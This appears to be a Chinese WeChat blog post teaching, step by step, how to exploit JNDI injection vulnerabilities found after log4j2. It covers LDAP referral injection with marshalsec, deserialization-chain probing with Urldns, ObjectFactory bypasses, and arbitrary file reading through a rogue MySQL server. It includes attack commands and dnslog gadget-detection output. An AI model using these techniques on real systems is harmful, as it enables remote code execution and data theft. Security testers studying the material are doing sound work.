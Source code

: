 #  到底如何利用JNDI？

原创 珂字辈  [ 珂技知识分享 ](javascript:void\(0\);)

**珂技知识分享** ![]()

微信号 kezibei001

功能介绍 分享自己的安全技术，渗透实例，IT知识，拒绝转载，坚持原创。

____

___发表于_

收录于合集

在log4j2漏洞之后很多人常常可以借助扫描器发现JNDI漏洞，却对利用JNDI感到很棘手，这篇文章就从实际出发，尽量少的讲原理，一步一步教你如何利用JNDI漏洞。

  

首先，JNDI分两种协议，一种rmi，一种ldap，在绝大部分情况下，ldap可以完美覆盖rmi，因此你可以无视rmi直接用ldap。

使用ldap，也分三种情况。

一种是jndi注入，需要被攻击者A，访问VPS上的ldap服务，然后ldap服务要求被攻击者A访问并加载一个http服务上的class。这种情况受着JDK版本限制(最低JDK11.0.1/8u191/7u201/6u211)

一种是ldap反序列化，需要被攻击者A，访问VPS上的ldap服务，然后ldap服务传输序列化payload，要求被攻击者A去进行反序列化。这种情况需要反序列化链。

一种是ldap工厂类绕过，和反序列化过程几乎一样，不同的是反序列化链换成了ObjectFactory链。

  

我们在测试JNDI漏洞时， **第一要求就是ldap协议出网**
，ldap协议不出网是绝对无法完成漏洞利用的。对log4j2来说，不出网还可以用dnslog带出敏感信息，对fastjson来说，也有不出网的利用方法，但对JNDI的利用来说，必须得出网。  

判断是否出网很简单，用rmi协议会非常直观(当然ldap也可以)，比如我在本地上搭了个log4j2漏洞环境。

![](https://gitee.com/fuli009/images/raw/master/public/20220923135906.png)

 **  
**

 **一、JNDI注入**  

确定出网后，就可以尝试JNDI注入。如果我们能获取对方的JDK版本，直接对比就行了，比如log4j2就可以利用dnslog或者ldap来获取JDK版本。

![](https://gitee.com/fuli009/images/raw/master/public/20220923135908.png)

如果不能，就要盲打，可以用任意一个JNDI工具尝试盲打，比如marshalsec。

  * 

    
    
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:5667/#Exploit" 1389

然后监听5667，如果收到http请求证明可以JNDI注入。

![](https://gitee.com/fuli009/images/raw/master/public/20220923135909.png)

再深入利用就是将5667端口上的class换成命令执行或者内存马的恶意类。因为需要临时制作恶意类，还需要开ldap和http两个端口，比较麻烦，所以现在很多JNDI工具都集成了JNDI注入功能，大家自己搜。

https://github.com/search?q=jndi

  

 **二、反序列化绕过**

但是绝大部分时候都是高版本JDK，我们只能寻求绕过方法。第一种是反序列化绕过，要求对方有反序列化链。

这种情况就只需要一个ldap服务，上述的JNDI工具也集成了此功能，但是对于反序列化链的寻找，就需要用到Urldns进行探测。

https://github.com/kezibei/Urldns

我们需要找到一个可以显示很多条dnslog的网站。

https://dig.pm/

  * 

    
    
    java -jar Urldns.jar ldap all xxx.dnslog.cn

发起jndi攻击，效果如下

![](https://gitee.com/fuli009/images/raw/master/public/20220923135910.png)

68多条，很多重复的，在web中显示不全，在burp中查看所有记录。

![](https://gitee.com/fuli009/images/raw/master/public/20220923135911.png)

如果自建dnslog平台可以写个小脚本提取一下，我这里就手工提取比较重要的信息。

  *   *   *   *   *   *   *   *   *   * 

    
    
    cc31or321.c2424831.logplog.eu.orgcb19x.c2424831.logplog.eu.orgjavax_el_ELProcessor.c2424831.logplog.eu.orgcc322.c2424831.logplog.eu.orgorg_yaml_snakeyaml_Yaml.c2424831.logplog.eu.orgbecl.c2424831.logplog.eu.orgwindows.c2424831.logplog.eu.orgcom_mysql_jdbc_Driver.c2424831.logplog.eu.orgcom_zaxxer_hikari_HikariJNDIFactory.c2424831.logplog.eu.orgorg_apache_naming_factory_BeanFactory.c2424831.logplog.eu.org

只关注反序列化链，有cb19x，有cc31or321和cc322，高版本覆盖低版本，因此cc322没有反序列化链漏洞，能利用的唯一链就是cb19x。

那么就需要用JNDI工具进行JNDI bypass，我自己写了一个，大家用网上的就行。注意commons-beanutils版本依赖。

![](https://gitee.com/fuli009/images/raw/master/public/20220923135912.png)

  

 **三、ObjectFactory绕过**

和反序列化绕过类似，只要被攻击者有对应的依赖就行，长期以来一直用的是javax.el.ELProcessor和org.apache.naming.factory.BeanFactory组合。但浅蓝挖掘了更多的可能性。

http://www.b1ue.cn/archives/529.html

我们用Urldns探测之后发现也发现了ELProcessor和BeanFactory，那么可以如图。

![](https://gitee.com/fuli009/images/raw/master/public/20220923135914.png)

还可以发现HikariJNDIFactory和mysql的组合，mysql
jdbc可以反序列化(无意义)和任意文件读取。如下图，利用jndi工具和rogue_mysql_server.py实现任意文件读取。

![](https://gitee.com/fuli009/images/raw/master/public/20220923135915.png)

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

